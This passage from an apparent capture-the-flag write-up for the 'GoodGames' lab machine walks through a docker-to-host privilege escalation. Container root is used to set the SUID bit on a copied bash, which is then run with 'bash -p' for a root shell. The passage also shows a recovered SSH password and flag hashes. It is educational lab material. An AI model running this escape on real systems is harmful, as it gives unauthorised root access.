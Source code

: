 Recall that we used the docker container to grab `nmap` from our own server? It shows that it is owned by `root`. Perhaps we can copy `/bin/bash` to our current actual directory and then use the docker container to assign it with root privileges + SUID bit set?

```bash
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ ls  
bash  nmap  user.txt
augustus@GoodGames:~$ exit
logout
Connection to 172.19.0.1 closed.

root@3a453ab39d3d:/home/augustus# ls
bash  nmap  user.txt
root@3a453ab39d3d:/home/augustus# chown root:root bash
root@3a453ab39d3d:/home/augustus# chmod +s bash
root@3a453ab39d3d:/home/augustus# ssh augustus@172.19.0.1
augustus@172.19.0.1's password: superadministrator
...
augustus@GoodGames:~$ ls -la
total 7040
drwxr-xr-x 2 augustus augustus    4096 Aug 15 15:01 .
drwxr-xr-x 3 root     root        4096 Oct 19  2021 ..
-rwsr-sr-x 1 root     root     1234376 Aug 15 15:01 bash
lrwxrwxrwx 1 root     root           9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 augustus augustus     220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 augustus augustus    3526 Oct 19  2021 .bashrc
-rwxr-xr-x 1 root     root     5944464 Aug 15 13:50 nmap
-rw-r--r-- 1 augustus augustus     807 Oct 19  2021 .profile
-rw-r----- 1 root     augustus      33 Aug 15 14:10 user.txt
augustus@GoodGames:~$ ./bash -p

bash-5.1# whoami
root
bash-5.1# cat /home/augustus/user.txt
e950d45708b4f0294a0facc97621ef35
bash-5.1# cat /root/root.txt
4c445d98ed713a143512122ca28a9d5f
```

>   `bash -p` preserves the SUID/GUID.
>
>   More Linux Privilege Escalation examples can be found [here](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/privilege-escalation/linux/linux-examples.rst). 
